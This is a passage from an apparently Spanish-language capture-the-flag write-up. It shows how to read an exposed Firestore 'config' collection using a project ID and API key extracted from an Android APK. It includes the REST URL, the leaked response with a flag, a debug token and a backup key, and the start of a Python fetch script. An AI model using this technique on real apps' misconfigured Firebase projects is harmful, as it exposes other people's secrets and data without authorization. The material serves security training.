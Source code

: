 **Explicación de la URL**:
- `https://firestore.googleapis.com/v1/projects/`: Endpoint base de la API REST de Firestore
- `${PROJECT_ID}`: ID del proyecto Firebase extraído del APK
- `/databases/(default)/`: Base de datos por defecto (Firestore siempre usa "(default)" como nombre de base)
- `/documents/config`: Colección "config" donde se almacenan los parámetros de configuración
- `?key=${API_KEY}`: Autenticación usando el API key extraído

**¿Por qué "config" y "(default)"?**
- **"config"**: Es una convención común para almacenar configuraciones de aplicación en Firestore
- **"(default)"**: Firestore siempre crea una base de datos con el nombre "(default)" por defecto
- Estas son convenciones estándar en proyectos Firebase/Firestore

#### Respuesta Esperada

```json
{
  "documents": [
    {
      "name": "projects/arctic-bee-470901-c4/databases/(default)/documents/config/AsUH2sKAXkHDZaQNJdx3",
      "fields": {
        "admin_debug_token": {
          "stringValue": "CTF{m3d1cl0udx_m0b1l3_f1r3b4s3_r3m0t3_c0nf1g_83jrldhc}"
        },
        "backup_encryption_key": {
          "stringValue": "AES256_83jrldhc_BACKUP"
        },
        "theme_color": {
          "stringValue": "#4A90E2"
        }
      },
      "createTime": "2025-10-10T18:01:04.629511Z",
      "updateTime": "2025-10-10T18:01:04.629511Z"
    }
  ]
}
```

**🏆 Flag encontrada**: `CTF{m3d1cl0udx_m0b1l3_f1r3b4s3_r3m0t3_c0nf1g_83jrldhc}`

#### Método Alternativo: Using Python firebase-admin SDK

```python
#!/usr/bin/env python3
import requests
import json

# Configuration extracted from APK
FIREBASE_CONFIG = {
    "project_id": "arctic-bee-470901-c4",
    "api_key": "AIzaSyBGKPKopYsBhYQmPfzZAlk_cHpv7MW8QWQ"
}

# Firestore REST API endpoint
url = f"https://firestore.googleapis.com/v1/projects/{FIREBASE_CONFIG['project_id']}/databases/(default)/documents/config"

try:
    # Fetch config documents
    response = requests.get(url, params={"key": FIREBASE_CONFIG['api_key']})
    
    if response.status_code == 200:
        data = response.json()
        
        for doc in data.get('documents', []):
```